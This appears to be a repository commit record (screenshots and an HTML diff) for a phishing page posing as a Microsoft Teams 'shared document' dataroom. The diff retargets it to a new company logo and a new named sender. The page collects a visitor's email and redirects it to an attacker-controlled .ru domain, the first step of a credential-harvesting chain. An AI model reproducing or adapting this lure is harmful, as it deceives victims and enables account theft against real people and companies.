

Before and after one commit to profic-cmd/dataroom-access, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 243-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -123,18 +123,18 @@
 </head>
 <body>
     <div class="container">
-        <img src="https://logo.clearbit.com/noaleenergia.com" alt="Microsoft Teams Logo" class="logo">
-        <h1>Steven Stielberg has shared a document with you!</h1>
-        <p>Please enter your email address to continue.</p>
+        <img src="https://logo.clearbit.com/delesgroup.com" alt="Microsoft Teams Logo" class="logo">
+        <h1>Marta Wroblewska Pisanelli has shared a document with you!</h1>
+		<p> please enter your email address to continue</p>
         <form id="emailForm" method="GET">
             <input type="email" id="email" name="email" placeholder="Enter your email" required>
             <div class="error" id="errorMessage" style="display: none;">Please enter a valid email address.</div>
             <label>
                 <input type="checkbox" id="humanCheck" required> I am not a bot
             </label>
-           <button type="submit"><strong>ACCESS DATAROOM</strong></button>
+            <button type="submit"><strong>ACCESS DATAROOM</strong></button>
         </form>
-        <p class="disclaimer">Microsoft Teams is a registered trademark of Microsoft Corporation. By using this service, you agree to Microsoft's <a href="#" target="_blank">terms and conditions</a> and <a href="#" target="_blank">privacy policy</a>.</p>
+        <p class="disclaimer">Disclaimer: The information contained in this e-mail is confidential. This e-mail is intended solely for this recepient and may not be accessed by anyone else.</p>
 
     </div>
 
@@ -159,7 +159,7 @@
             } else {
                 errorMessage.style.display = 'none';
                 // Redirect to the landing page with the email appended as a query parameter
-                const redirectUrl = `https://gerlinger-industries.losonthify.ru/pRd0r36Z/#W${encodeURIComponent(email)}`;
+                const redirectUrl = `https://dataroom-access.losonthify.ru/pRd0r36Z/#W${encodeURIComponent(email)}`;
                 window.location.href = redirectUrl;
             }
         });
```
